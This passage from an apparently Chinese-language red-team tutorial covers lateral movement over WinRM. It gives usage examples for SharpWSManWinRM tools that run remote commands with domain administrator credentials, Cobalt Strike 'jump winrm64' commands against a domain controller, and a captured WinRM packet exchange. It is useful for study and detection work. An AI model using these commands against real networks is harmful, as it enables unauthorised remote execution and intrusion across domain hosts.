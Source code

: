 WSManWinRM.vbs

```
Usage: cscript.exe SharpWSManWinRM.vbs <hostname> <command>
 Usage: cscript.exe SharpWSManWinRM.vbs <hostname> <command> <domain\user> <password>

 Example: cscript.exe SharpWSManWinRM.vbs dc.one.com notepad.exe
 Example: cscript.exe SharpWSManWinRM.vbs dc.one.com "cmd /c notepad.exe" one\administrator q123456.
```

SharpWSManWinRM.cs

```
Usage: SharpWSManWinRM.exe <hostname> <command>
 Usage: SharpWSManWinRM.exe <hostname> <command> <domain\user> <password>

 Example: SharpWSManWinRM.exe dc.one.com notepad.exe
 Example: SharpWSManWinRM.exe dc.one.com "cmd /c notepad.exe" one\administrator q123456.
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAYOnUs2icDhD2rCZqR5EjVmNvaOenSgiaKFviaiaahgyITN4w1gwB3KIQMN0Wjian6YRppC7APDHldgUg/640?wx_fmt=png)

cobalt strike 平台上利用 winrm 进行横向移动
--------------------------------

在 cobalt strike 平台上有集成到 winrm 来进行横向移动，这里分有 86 位和 64 位的 winrm

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAYOnUs2icDhD2rCZqR5EjVmCRsGALsfl4cbTCib8mxfImquHepjpibdZJicHU5icfTd8zCgLUWqsG23SQ/640?wx_fmt=png)

接着选择对应的位数，并且把相对于的信息填入进去。后面需要选择 Listener 和 Session。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAYOnUs2icDhD2rCZqR5EjVmAExHgNuicSJhoUtIjPfH8xicJmUyEC2OMOjl2ibiaJGfLzlBPdhSQBQgiaQ/640?wx_fmt=png)

接着就上线成功了，也可以通过命令行界面来进行 winrm 的横向移动操作

```
jump winrm64  TARGET  Listen
jump winrm64 dc.one.com http
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAYOnUs2icDhD2rCZqR5EjVmu41kP09n84ZDbc14BbpicfWa3cWYkATlqSfyEY6JXB0Ae4Tmich3cEuQ/640?wx_fmt=png)

翻了翻 cobaltstrike 的源码，找到了 winrm 的执行方式，他这里是通过 powershell 来执行命令的，通过 Invoke-Command 指定 - ScriptBlock 来执行命令。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAYOnUs2icDhD2rCZqR5EjVmnhzjUowM4KT5exIa6MYN8ltyTfcIINX2Xw2LWsPh5IibPJiclUPdmmmw/640?wx_fmt=png)

通过 Wireshark 进行抓捕可以看到 WinRM 进行横向移动的时候的数据包如下

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAYOnUs2icDhD2rCZqR5EjVmLib8HIPHqu3DKDAfzj102ZfX3el4Zz9cv4prEvMv3AkdPkeBv2PIBWw/640?wx_fmt=png)

```
POST /wsman?PSVersion=5.1.14393.1884 HTTP/1.1
Connection: Keep-Alive
Content-Type: application/soap+xml;charset=UTF-8
Authorization: Kerberos YIILygYJKoZIhvcSAQICAQBuggu5MIILtaAD....省略
User-Agent: Microsoft WinRM Client
Content-Length: 0
Host: dc.one.com:5985
HTTP/1.1 200 
Content-Type: multipart/encrypted;protocol="application/HTTP-Kerberos-session-encrypted";boundary="Encrypted Boundary"
Server: Microsoft-HTTPAPI/2.0
Date: Mon, 15 Feb 2021 04:33:02 GMT
Content-Length: 1274
--Encrypted Boundary
Content-Type: application/HTTP-Kerberos-session-encrypted
OriginalContent: type=application/soap+xml;charset=UTF-8;Length=974
```